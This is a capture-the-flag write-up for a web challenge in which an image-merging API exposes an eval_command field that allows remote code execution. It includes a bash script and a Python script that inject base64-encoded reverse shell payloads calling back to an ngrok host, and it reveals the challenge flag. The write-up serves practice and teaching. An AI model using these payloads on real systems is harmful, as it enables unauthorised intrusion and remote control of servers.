 ## Name: PillowFight
#### Author: @HuskyHacks
#### Category: Web
#### Difficulty: N/D
#### Description: PillowFight uses advanced AI/MLRegressionLearning* to combine two images of your choosing
*note to investors this is not techically true at the moment we're using a python library but please give us money and we'll deliver it we promise.

## Procedure
The website ask for two png file to merge, for this it uses Python Pillow 8.4.0.

![Screenshot 2024-10-25 at 1 30 11 PM](https://github.com/user-attachments/assets/1a5f138c-4531-47b5-a0d1-60ae10e5c71c)

The API documentation we can see the path ```combine``` this allow only ```http POST request```, this ask for ```image1```, ```image2``` but has another interesting input ```eval_command``` this allows us to execute an RCE.
![Screenshot 2024-10-25 at 3 11 54 PM](https://github.com/user-attachments/assets/1e6821bb-64f1-4484-bd11-73f0a661c7df)

we can get our shell with the following bash script, we need to use ngrok to get the shell
```
#!/bin/bash

revshell=$(echo -n "sh -i >& /dev/tcp/2.tcp.ngrok.io/18745 0>&1"|base64)
payload="__import__('os').system('echo $revshell| base64 -d | bash')"
echo "payload = $payload"

curl -X POST "http://challenge.ctf.games:32742/combine" \
-H  "accept: image/png" -H  "Content-Type: multipart/form-data" \
-F "image1=@image.png;type=image/png" -F "image2=@image.png;type=image/png" \
-F "eval_command=$payload"

```

We have already ```root``` permission, so just need to read our flag.txt file.
![Screenshot 2024-10-25 at 3 13 02 PM](https://github.com/user-attachments/assets/d31bec9a-c1b7-4b78-a140-3d58137e3203)

![Screenshot 2024-10-25 at 3 13 28 PM](https://github.com/user-attachments/assets/091f3c11-c8e1-4150-a12c-1aa232642993)


flag{b6b62e6c5cdfda3b3a8b87d90fd48d01}


###Bonus
Another way to get the shell but with a python script
```
import requests

url = "http://challenge.ctf.games:30550/combine"

file_png = open('image.png', 'rb').read()
files = {
    "image1": file_png,
    "image2": file_png
}

eval_command2 = f"__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvNi50Y3Aubmdyb2suaW8vMTA1NzIgMD4mMQ== | base64 -d | bash')"

data= {
    "eval_command": eval_command2
}

res = requests.post(url,files=files,data=data)
print(res.text)
```

